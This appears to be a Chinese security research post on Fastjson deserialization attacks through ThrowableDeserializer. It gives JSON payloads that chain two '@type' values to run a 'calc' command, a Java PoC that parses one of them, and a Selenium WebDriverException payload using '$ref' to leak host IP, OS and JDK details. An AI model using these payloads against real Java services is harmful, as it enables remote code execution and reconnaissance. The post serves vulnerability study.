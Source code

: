 ```java
```

JSON字符串：

```java
{"x":
	{"@type":"java.lang.Exception",
	 "@type":"me.mole.exception.CalcException", 
	         "command":"calc"}, 
}
```

测试POC：

```java
public static void main(String[] args) throws Exception
{
    String payload = "{\"x\":\n" +
            "\t{\"@type\":\"java.lang.Exception\",\n" +
            "\t \"@type\":\"org.exploit.third.fastjson.EvilException\", \n" +
            "\t         \"command\":\"calc\"}, \n" +
            " }";
    JSON.parse(payload);
}
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241024121847287.png)

### ThrowableDeserializer+selenium

需要有selenium依赖

```xml
<dependency>
  <groupId>org.seleniumhq.selenium</groupId>
  <artifactId>selenium-api</artifactId>
  <version>4.1.1</version>
</dependency>
```

org.openqa.selenium.WebDriverException类的getMessage()方法和getSystemInformation()方法都能获取一些系统信息，比如：IP地址、主机名、系统架构、系统名称、系统版本、JDK版本、selenium webdriver版本。另外，还可通过getStackTrace()来获取函数调用栈，从而获悉使用了什么框架或组件。

但是调用方法是getter，且并不满足fastjson调用的getter规则，有其他办法调用到吗？之前分析了一篇fastjson>=1.2.36 $ref调用 getter，膜Y4tacker

https://godownio.github.io/2024/10/24/fastjson-ref-diao-yong-getter/

```java
{"x":
  {"@type":"java.lang.Exception",
  "@type":"org.openqa.selenium.WebDriverException"},
 "y":{"$ref":"$x.systemInformation"},
 "z":{"$ref":"$x.message"},
}
```

不过只是WebDriverException.getMessage并没有回显，需要目标服务器回显才能用
